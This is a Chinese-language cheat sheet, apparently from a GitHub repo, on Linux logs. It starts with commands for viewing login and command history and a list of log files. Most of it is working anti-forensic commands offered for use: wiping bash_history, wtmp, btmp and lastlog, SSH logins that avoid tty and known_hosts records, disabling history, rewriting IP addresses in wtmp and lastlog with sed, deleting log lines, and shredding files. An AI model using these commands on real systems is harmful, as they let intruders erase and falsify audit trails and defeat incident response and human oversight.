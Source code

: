 # Linux   log

---

## 查看

```
last          # 查看历史登陆记录，用户、IP
history       # 查看历史命令执行记录
w             # 查看当前登陆，用户、IP

```

## 清除

```
echo '' > /root/.bash_history                 #history记录
echo '' > /var/log/wtmp                       #last日志，查看历史登陆记录，用户、IP、时间
echo '' > /var/log/btmp                       #lastb日志 
echo '' > /var/log/lastlog                    #lastlog日志 ,查看所有用户登陆记录，IP只显示最近一次登陆
```

## 组合命令

```
查看历史登陆IP和端口（ubuntu：/var/log/auth*  ；centos：/var/log/secure*）:
(ls /var/log/auth*.gz|xargs zcat  |grep Accepted|awk '{print $1"/"$2,$3","$9","$11","$13}'  && ls /var/log/ |grep -E "secur|auth" |xargs cat  |grep Accepted|awk '{print $1"/"$2,$3","$9","$11","$13}') 2>/dev/null
```

## 日志文件

```
日志文件
/var/log/message 系统启动后的信息和错误日志，是Red Hat Linux中最常用的日志之一
/var/log/secure 与安全相关的日志信息
/var/log/maillog 与邮件相关的日志信息
/var/log/cron 与定时任务相关的日志信息
/var/log/spooler 与UUCP和news设备相关的日志信息
/var/log/boot.log 守护进程启动和停止相关的日志消息
/var/log/btmp – 记录所有失败登录信息  命令:lastb
/var/log/auth.log 系统授权信息，包括用户登录和使用的权限机制等 (debian)
```

## ssh登陆隐匿和伪装日志文件
1.登陆账号不给管理员看到

```
ssh -T somebody@8.8.8.8 /bin/bash –i
```
2.不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```


3.设置不纪录历史命令(.bash_history)

```
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
```

4.修改last命令
centos: 8.8.8.8-> 1.1.1.1

```
utmpdump /var/log/wtmp |sed "s/8.8.8.8/1.1.1.1/g" |utmpdump -r >/tmp/wtmp1 &&\mv  /tmp/wtmp1 /var/log/wtmp
```

unix:192.168.8.88->/localhost

```
/usr/lib/acct/fwtmp < /var/adm/wtmpx | sed "s/192.168.8.88/localhost/g" | /usr/lib/acct/fwtmp -ic > /var/adm/wtmpx
```

5.修改lastlog

```
sed -i 's/192.168.1.1/8.8.8.8/g' /var/log/lastlog
```

6.删除当前时间日志

```
sed  -i '/当前时间/'d  /var/log/messages
```

7.覆盖文件次数31337

```
shred -n 31337 -z -u filename
```


